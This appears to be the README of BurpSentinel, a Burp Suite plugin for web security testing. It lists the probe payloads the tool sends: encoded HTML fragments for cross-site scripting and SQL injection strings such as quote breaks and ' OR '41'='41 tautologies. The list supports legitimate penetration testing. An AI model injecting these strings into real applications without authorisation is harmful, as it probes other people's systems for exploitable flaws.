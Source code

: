 = BurpSentinel Payloads

Based on my presentation on BSidesVienna 2014: http://www.slideshare.net/nibod/bsides-viennasentinel-v04


== XSS

For tag based injection:
[source]
----
%3Cp%3E%22
<p>"
----

For tag value based injection:

[source]
----
%22%3D 
"=
----

== SQLu

The old SQL tests:

[source]
----
'BREAK\"
        
OR 41=41
' OR '41'='41
" OR "41"="41

/**/

) OR (41=41
') OR ('41'='41
") OR ("41"="41"
----

== SQLs

The new SQL tests:

[source]
----
'BREAK\"

ORIG+1-1
ORIG'+0+'0

ORIG[0]'||'ORIG[1-END]
ORIG[0]'+'ORIG[1-END]
ORIG[0]' 'ORIG[1-END]
/**/ORIG
----

